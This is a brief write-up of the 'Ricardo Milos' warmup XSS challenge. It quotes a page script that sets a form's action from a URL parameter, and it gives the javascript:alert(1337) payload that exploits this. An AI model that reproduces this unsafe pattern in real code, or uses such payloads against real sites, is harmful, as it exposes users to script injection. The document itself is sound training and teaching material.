 # Ricardo Milos - Exercise 6

[Problem](https://xss.pwnfunction.com/warmups/ricardo/)

[Solution](https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337))

## Explanation

Here is the part of the sourde code where we can inject Javascript.

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

The answer is pretty straight forward. We can change the value of `action` of the form using the parameter `ricardo`. Simply setting the parameter `ricardo` to `javascript:alert(1337)` will do the job.
